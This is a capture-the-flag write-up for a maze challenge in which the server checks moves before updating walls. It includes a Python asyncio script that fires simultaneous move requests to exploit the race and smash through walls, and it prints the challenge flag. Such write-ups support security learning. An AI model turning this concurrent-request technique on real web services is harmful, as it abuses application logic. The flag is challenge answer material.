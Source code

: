 ```yaml
---
created: 2024-07-19T18:28
updated: 2024-07-21T18:39
solves: 100
points: 100
---
```


## race condition

The server fetched "possible moves", does some database manipulation, and updates possible moves at the end. There is a time frame in between where the player is still allowed to move in the direction of the wall.

It's a race condition challenge, by sending two or more requests to move at the same time we have a chance of smashing through the obstacle, effectively overwriting the wall with blank tiles.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1721428085/2024/07/db612e22179b33fa758f1862f4bb4076.png)

My method is simple:
1. Send multiple move requests at once
2. If nothing changed, we are stuck, back away in the opposite direction.
3. Repeat until we reach the top right corner.
4. Rotate the response 90 degrees so we can run the exact same logic above again.

**caveat**, my method only works if the second row's last column is empty, because the vertical descend needs some space to initiate the first smash.

```
@..#...#..##...#.#..###..#..#..#.#.
.....#...#...##...#..#..###..#.#... <- this tile has to be empty
```

## solve script

```python
import asyncio
import aiohttp
import re
mid = "857c86f0-df2d-4f42-ad98-b766b2b1dc1b"
info = f"http://the-amazing-race.chal.imaginaryctf.org/{mid}"
target = f"http://the-amazing-race.chal.imaginaryctf.org/move?id={mid}&move="


async def move(session, direction, rot=0):
    response = await (session.post(url=target+direction) if len(direction) > 0 else session.get(url=info))
    if response.status != 200:
        print("huh", direction)
        return await move(session, direction, rot)
    resp = await response.read()
    resp = re.search("><code>\n([.@#\nF]+)\n</code>", resp.decode()).group(1)
    if rot == 1:
        resp = rotate_anticlockwise(resp)
    return resp

opp = {"right": "left", "left": "right", "up": "down", "down": "up"}
smash_dir = ["right", "down"]


def rotate_anticlockwise(text):
    lines = text.split('\n')
    return '\n'.join(''.join(line[-i-1] for line in lines) for i in range(len(lines[0])))


async def smash_right(session, rot=0):
    resp = await move(session, '', rot)
    lastResp = resp
    smashing_move = smash_dir[rot]
    backing_move = opp.get(smashing_move)
    while "@\n" not in resp and resp[-1] != '@':
        if lastResp == resp and not resp[0] == '@':  # got stuck
            resp = await move(session, backing_move, rot)
            print([x for x in resp.splitlines() if "@" in x], 'backing...', backing_move)
        lastResp = resp
        await asyncio.gather(*(move(session, smashing_move, rot) for _ in range(2)))
        resp = await move(session, '', rot)
        print([x for x in resp.splitlines() if "@" in x], 'smash!', smashing_move)


async def smasher():
    async with aiohttp.ClientSession() as session:
        await smash_right(session)
        print("reached top right most corner!")
        await smash_right(session, 1)
        print("reached flag")
        await move(session, "down")
        print(await (await session.get(url=info)).read())


asyncio.run(smasher())
```

```flag
ictf{turns_out_all_you_need_for_quantum_tunneling_is_to_be_f@st}
```
